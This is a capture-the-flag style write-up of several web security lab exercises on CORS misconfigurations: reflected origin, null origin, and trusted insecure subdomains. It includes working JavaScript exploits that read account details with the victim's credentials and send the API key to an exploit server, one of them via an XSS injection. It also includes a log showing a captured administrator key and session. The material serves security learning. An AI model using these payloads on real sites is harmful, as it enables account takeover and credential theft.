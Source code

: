# Cross-origin resource sharing (CORS)

## Basics

----

### CORS vulnerability with basic origin reflection

#### Description

The Academy website for this lab has an insecure CORS configuration in that it trusts all origins. 

#### Proof of Concept

1. Start Burp, foxyproxy, and with intercept off, log in to the target site and access your account page.

![CORS](../../_static/images/cors1.png)

2. Review the **HTTPhistory** in Burp: The key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.

![CORS](../../_static/images/cors2.png)

3. Send the request to **Burp Repeater**, and resubmit it with the added header:

```text
Origin: https://whatever.com
```

![CORS](../../_static/images/cors3.png)

The origin is reflected in the `Access-Control-Allow-Origin` header, meaning the application allows an arbitrary (public) origin, and `Access-Control-Allow-Credentials` is also true.

4. Create exploit (replacing `lab-id`):

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://lab-id.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

5. Paste the exploit in the `body` field of the form in the exploit server.
6. Click **View exploit** and check you land on the log page and your API key is in the URL. 
7. **Deliver exploit to victim**.
8. Go to **Access log**

```text
...
10.0.3.246      2023-01-02 21:51:33 +0000 "GET /exploit/ HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.3.246      2023-01-02 21:51:33 +0000 "GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22PY3qD4pkDMg4WDq1CZvntWDlPE0TFUyV%22,%20%20%22sessions%22:%20[%20%20%20%20%22pEGInv0rQCAB3vDmrgkuharW591raOlV%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.3.246      2023-01-02 21:51:33 +0000 "GET /resources/css/labsDark.css HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
```

9. Copy the administrator's API key, and enter it as solution to the lab.

#### Exploitability

To exploit this vulnerability, an attacker would have to create an exploit from a well-know template. Then, the attacker would need to convince the administrator into visiting the page with the exploit, potentially giving the attacker access to the administrator's account and all associated privileges and resources.

#### Impact

The attacker could disable account notifications, enable 2FA to lock them out, and transfer their data to an arbitrary address.

#### Remediation

An attacker can directly forge a request from any trusted origin. Apply protections to sensitive data, such as authentication and session management, in addition to configuring CORS.

----

### CORS vulnerability with trusted null origin

#### Description

This website has an insecure CORS configuration in that it trusts the `null` origin. To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key. You can log in to your own account using the following credentials: `wiener:peter` 

#### Proof of Concept

1. Start Burp, foxyproxy, and with intercept off, log in to the target site and access your account page.
2. In Burp, review the **HTTPhistory**. The API key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to **Burp Repeater**, and resubmit it with the added header `Origin: null`. The "null" origin is reflected in the Access-Control-Allow-Origin header of the response.
4. Create exploit (replacing `lab-id` and `exploit-server-id`). The iframe sandbox generates a null origin request.

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://lab-id.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-server-id.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

5. Go to the exploit server and enter the exploit in the body field of the form.
6. Click **View exploit** and check you land on the log page and your API key is in the URL. 
7. **Deliver exploit to victim**.
8. Go to **Access log**
9. Copy the administrator's API key, and enter it as solution to the lab.

#### Exploitability

To exploit this vulnerability, an attacker would have to create an exploit from a well-know template script. Then, the attacker would need to convince the administrator into visiting the page with the exploit, potentially giving the attacker access to the administrator's account and all associated privileges and resources.

#### Impact

The attacker could disable account notifications, enable 2FA to lock them out, and transfer their data to an arbitrary address.

#### Remediation

An attacker can directly forge a request from any trusted origin. Apply protections to sensitive data, such as authentication and session management, in addition to configuring CORS.

## Practitioner

### CORS vulnerability with trusted insecure protocols

#### Description

The website of this lab has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol. 

_If an on-path attack (MitM) between server and victim was possible, a connection to an insecure subdomain could be hijacked, and malicious JavaScript injected to exploit the CORS configuration. Unfortunately, in this lab environment on-path is not possible, so we use an alternative way of injecting JavaScript into the subdomain._

#### Proof of Concept

1. Start Burp, foxyproxy, and with intercept off, log in to the target site and access your account page.
2. In Burp, review the history. The API key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header `Origin: http://subdomain.lab-id` where `lab-id` is the lab domain name. The origin is reflected in the `Access-Control-Allow-Origin` header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.
4. Open a product page, click **Check stock**. It is loaded using a HTTP URL on a subdomain, and the `productID` parameter is vulnerable to [XSS](xss.md). 
5. Create exploit ((replacing `lab-id` and `exploit-server-id`):

```html
<script>
    document.location="http://stock.lab-id.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://lab-id.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-server-id.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

6. Go to the exploit server and enter the exploit in the body field of the form.
7. Click **View exploit** and check you land on the log page and your API key is in the URL. 
8. **Deliver exploit to victim**.
9. Go to **Access log**
10. Copy the administrator's API key, and enter it as solution to the lab.

## Expert

### CORS vulnerability with internal network pivot attack

#### Description

The website of this lab has an insecure CORS configuration in that it trusts all internal network origins, and requires multiple steps to complete. 

_Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. The provided exploit server and/or Burp Collaborator's default public server must be used._


